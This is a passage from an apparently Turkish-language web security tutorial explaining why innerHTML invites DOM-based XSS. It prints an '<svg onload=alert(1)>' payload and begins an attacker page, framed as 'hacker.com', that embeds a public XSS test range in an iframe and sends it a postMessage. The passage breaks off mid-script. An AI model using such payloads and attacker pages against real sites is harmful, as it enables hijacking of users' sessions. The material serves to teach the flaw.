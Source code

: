 innerHTML in neden tehlikeli olduğunu da inceleyelim;

Yukarıdaki yapıyı simüle ettiğimizde aşağıdaki gibi bir yapıda kolaylıkla XSS açığının oluşabileceğini tespit edebiliriz. Bu kısımda innerHTML ile div içerisine yerleştirilen input’u kendimiz yönetebildiğimiz için XSS’e de davetiye çıkmış olur.

```
<html>
  <script>
      var div = document.createElement("div");
      div.innerHTML = "<svg onload=alert(1)>";
      document.documentElement.appendChild(div);
  </script>
  <body>
    <div id="test"></div>
  </body>
</html>
```

Bu kodu bir HTML dosyası olarak kaydedip tarayıcımızda çalıştırınca XSS’in meydana geldiğini görebiliriz. Dolayısıyla innerHTML böyle kullanılınca pek de güvenli değildir.

![Untitled](0x09-770e9a14727f44d080ea40a453968369/Untitled-3.png)

Şimdi de iframe ile bu sayfayı açalım. Oluşturduğumuz html sayfasını ***hacker.com*** olarak düşünelim. Yani burası hacker’a ait olan sayfadır. Ancak bu sayfayı ziyaret ettiğinizde aslında burada açılan iframe sizi XSS açığı bulunan asıl hedef siteye götürecektir. Örneğin burası facebook olabilir.

```
<html>
  <body>
    <iframe
      src="https://public-firing-range.appspot.com
       /dom/toxicdom/postMessage/innerHtml">

    </iframe>
  </body>
</html>
```

Ancak buradaki iframe’i bu şekilde açmak yerine daha dinamik bir şekilde oluşturabiliriz. Buradaki kod yapısında yorum satırları ile birlikte ne yaptığımızı daha net anlayabilirsiniz.

```
<html>
    <iframe id="target" src="">

    </iframe>

    <script>
        //özetle iframe ile istediğimiz sayfayı açtırıp
        //iframe yüklenmesi bittikten sonra
        //bu frame içerisine bir postMessage göndermekteyiz.
        //Bu mesajı da 'selam' olarak belirledik bu kodlar ile.
        //target ile bu id alınır.
        var target = document.getElementById('target');
```
